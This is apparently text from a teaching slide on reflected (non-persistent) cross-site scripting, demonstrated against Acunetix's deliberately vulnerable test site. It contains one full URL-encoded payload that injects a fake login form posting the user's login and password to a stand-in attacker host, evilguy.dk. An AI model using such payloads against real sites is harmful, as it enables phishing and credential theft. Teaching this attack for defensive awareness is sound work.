

# Example - nonpersistent
http://testasp.vulnweb.com/Search.asp
Try to insert HTML tags in the search box

An attacker may design links to trick a victim:

*http://www.acunetix.com/websitesecurity/xss.htm
Bla bla bla….
…we recommend using
the Acunetix.com search for ….
…
http://testasp.vulnweb.com/Search.asp?tfSearch=%3Cbr%3E%3Cbr%3EPlease+login+before+proceeding:%3Cform+action=%22http://evilguy.dk/log.php%22%3E%3Ctable%3E%3Ctr%3E%3Ctd%3ELogin:%3C/td%3E%3Ctd%3E%3Cinput+type=text+length=20+name=login%3E%3C/td%3E%3C/tr%3E%3Ctr%3E%3Ctd%3EPassword:%3C/td%3E%3Ctd%3E%3Cinput+type=text+length=20+name=pw%3E%3C/td%3E%3C/tr%3E%3C/table%3E%3Cinput+type=submit+value=LOGIN%3E%3C/form%3E